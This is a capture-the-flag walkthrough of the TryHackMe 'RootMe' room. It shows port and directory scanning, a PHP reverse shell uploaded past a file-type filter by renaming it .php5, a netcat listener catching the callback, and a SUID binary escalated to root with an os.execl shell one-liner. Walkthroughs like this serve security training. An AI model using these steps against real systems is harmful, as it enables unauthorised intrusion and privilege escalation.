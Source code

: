 # RootMe
**Date:** October 9th 2022

**Author:** j.info

**Link:** [**RootMe**](https://tryhackme.com/room/rrootme) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/rootme0.png)

<br>

## Objectives
- Scan the machine, how many ports are open?
- What version of Apache is running?
- What service is running on port 22?
- What is the hidden directory?
- user.txt
- Search for files with SUID permission, which file is weird?
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  <REDACTED> <REDACTED> Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd <REDACTED> ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

That answers the first 3 questions.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.php            (Status: 200) [Size: 616]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959] 
/uploads              (Status: 200) [Size: 744]
/<REDACTED>           (Status: 200) [Size: 732]
```

That answers the 4th question.

<br>

## Website Digging

Visiting the main page:

![](images/rootme1.png)

Taking a look at /REDACTED gives me a way to upload files, which I'm going to guess end up in the /uploads directory we found above:

![](images/rootme2.png)

I upload the pentestmonkey reverse .php shell and it looks like there are file type filters:

![](images/rootme3.png)

I test to see if it blocks all .php types and manage to upload it as a .php5:

![](images/rootme4.png)

And looking in /uploads confirms it's there:

![](images/rootme5.png)

<br>

## System Access

I set up a netcat listener on my system and click the file I uplaoded on the webpage:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.35.253] 38130
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:57:54 up 12 min,  0 users,  load average: 0.00, 0.24, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

And quickly fix my shell since python3 is available:

```
www-data@rootme:/$ which python3
which python3
/usr/bin/python3
www-data@rootme:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work/tools]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@rootme:/$ export TERM=xterm-256color
www-data@rootme:/$
```

<br>

## System Enumeration

I check `sudo -l` but it requires a password.

Other than root we have 2 users with shells:

```
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
```

Looking at their home directories doesn't give us anything useful.

Looking in the /var/www directory shows us the user.txt flag:

`wc -c /var/www/user.txt`

```
21 /var/www/user.txt
```

I also notice a .bash_history file here that shows some things the author probably didn't intend to. But, honestly, I would have checked for SUID files next anyways. Running:

`find / -perm /4000 2>/dev/null`

Shows us that the REDACTED binary has SUID set which gives us the answer to the 5th question:

```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/REDACTED
```

<br>

## Root

The .bash_history file and GTFOBins list the same method to escalate over to root with the SUID binary:

`REDACTED -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
www-data@rootme:/$ REDACTED -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

And over in /root we find the answer to the 6th and final question in root.txt:

`wc -c /root/root.txt`

```
26 /root/root.txt
```

You can also view the .bash_history file in /root to get a sense of some of the things the author did to create this box.

<br>

With that we've completed this CTF!

![](images/rootme6.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a page on the website that lets you **upload files**
- Bypassing the **.php filter** by uploading a reverse shell as **.php5**
- Using the **reverse shell** that was uploaded to get our initial foothold on the system
- Using a binary with the **SUID** bit set to escalate to root

<br>

Many thanks to:
- [**ReddyyZ**](https://tryhackme.com/p/ReddyyZ) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)